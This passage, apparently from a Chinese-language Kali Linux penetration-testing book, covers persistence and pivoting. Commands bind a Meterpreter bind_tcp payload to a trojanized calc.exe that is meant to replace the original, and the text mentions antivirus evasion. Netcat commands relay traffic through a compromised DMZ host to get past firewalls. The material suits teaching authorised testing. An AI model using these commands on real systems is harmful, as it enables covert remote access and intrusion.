 您还可以将`msfpayload`编码为现有的可执行文件，修改后的可执行文件和持久代理都将起作用。要将持久代理绑定到一个可执行文件（如计算器（`calc.exe`）），首先将适当的`calc.exe`文件复制到 Metasploit 的模板文件夹中，位于`/usr/share/metasploit-framework/data/templates`。当模板就位时，使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -t exe -* calc.exe -k -o
  encoded_calc_attack.exe -e x86/shikata_ga_nai -c 5 

```

代理可以放置在目标系统上，重命名为`calc.exe`以替换原始的计算器，然后执行。

不幸的是，几乎所有 Metasploit 编码的可执行文件都可以被客户端防病毒软件检测到。这归因于渗透测试人员向 VirusTotal（[www.virustotal.com](http://www.virustotal.com)）等网站提交了加密的有效负载。然而，您可以创建一个可执行文件，然后使用 Veil-Evasion 对其进行加密，如第四章 *利用*中所述。

# 重定向端口以绕过网络控制

到目前为止，我们已经检查了对受攻击系统的远程控制访问，就好像我们在受害者和攻击者的机器之间有直接连接；然而，这种连接通常受到网络设备（如防火墙）的控制或阻止。

攻击者可以通过端口重定向来规避这些控制，这是一个指定的系统，它监听定义的端口并将原始数据包转发到特定的次要位置。

Kali 提供了几个支持端口重定向的工具，包括`nc`、`cryptcat`、`socat`、`ssh`、`fpipe`和 Metasploit 的`meterpreter`；我们将在以下部分中看一些示例。

## 示例 1 - 简单的端口重定向

简单的端口重定向可能会被使用，例如，如果您已经在网络外部的**非军事区**（**DMZ**）上损坏了一个系统，并且需要能够从远程位置与内部系统进行通信。

在 DMZ 中受损的系统上，配置一个 Netcat 实例来监听传入命令并将其转发到目标，使用以下命令：

```
root@kali:~# nc -l -p 44444 -e <TAGET IP> 444

```

这个命令将调用 Netcat（`nc`）来监听（`-l`）传入的流量，并执行（`-e`）将这些传入的流量传输到端口`444`上的目标。端口不是固定的，它们不必在监听/转发主机和最终目标上相同。

如果您缺乏有关目标内部网络的完整信息，可以尝试以下命令：

```
root@kali:~# nc -l -p <local listening port> -c "nc <TARGET IP> 
  <TARGET port> 

```

这个命令将设置本地（攻击者）Netcat 实例监听（`-l`）指定的端口，然后指示 Netcat 在每次新连接（`-c`）时创建一个新进程。

这个简单的例子允许外部人员连接到直接网络；然而，它不允许双向数据连接，这对于一些工具是必需的。

## 示例 2 - 双向端口重定向

考虑三个独立的 Windows 数据系统：

[攻击者] | [转发者] | [目标]

为了使用 Netcat 创建双向通信通道，我们将不得不使用命名管道。命名管道，也称为 FIFO，是一种创建定义的进程间通信的方法；这使我们可以将其处理为一个对象，在发出命令时更容易管理。在以下示例攻击中，我们创建一个名为`reverse`的命名管道来处理双向通信。
